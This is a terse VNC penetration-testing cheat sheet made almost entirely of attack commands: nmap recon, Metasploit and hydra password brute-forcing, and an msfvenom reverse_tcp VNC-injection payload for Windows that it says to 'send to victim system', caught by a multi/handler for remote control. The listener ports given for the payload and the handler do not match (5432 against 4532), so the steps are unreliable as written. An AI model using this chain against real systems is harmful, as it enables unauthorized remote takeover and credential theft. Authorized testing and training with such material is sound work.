 *VNC Penetration Testing


Introduction
----------------
VNC or Virtual Network Computing is a service that uses the Remote Frame Buffer protocol to enable graphical remote access of another system. It is an interactive session since the user can give the mouse and keyboard inputs through VNC to the original system. Defining like that seems so similar to the Remote Desktop Protocol that we discussed some while back but there is a prominent difference between the two. The VNC is platform-independent that means it can work with Linux and Windows whereas the RDP can only work between two Windows Machines.

VNC usually uses ports 5800 or 5801 or 5900 or 5901.


Information gathering
-----------------------
Check your server ip using below command

# arp-scan -l


Scanning
--------------

# nmap -sS -sV -p- 192.168.1.5
# nmap -p 5900 -sV 192.168.1.5
# nmap -p 5900 --script vnc-info 192.168.1.5


# nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p 5900 192.168.1.5




*exploitation using MSF


Open msfconsole

# search vnc 3.3

# use auxiliary/scanner/vnc/vnc_login

# set RHOSTS 192.168.1.5

# set STOP_ON_SUCCESS true

# exploit


*using vncviewer to connect remote system


# vncviewer 192.168.1.5




*Password Cracking using hydra tool


# hydra -s5900 -P pass.txt -t 16 192.168.1.5 vnc





we can exploit windows also
-----------------------------

Create windows payload

# msfvenom -p windows/x64/vncinject/reverse_tcp lhost=192.168.1.2 lport=5432 -f exe > vnc.exe

Note: send to victim system




exploitation using MSF
---------------------------
# use exploit/multi/handler
# set payload windows/x64/vncinject/reverse_tcp
# set lhost 192.168.1.2
# set lport 4532
# exploit

once you get meterpreter session type vnc command  to operate remote system
---------------------------------------------------------------------------

# run vnc







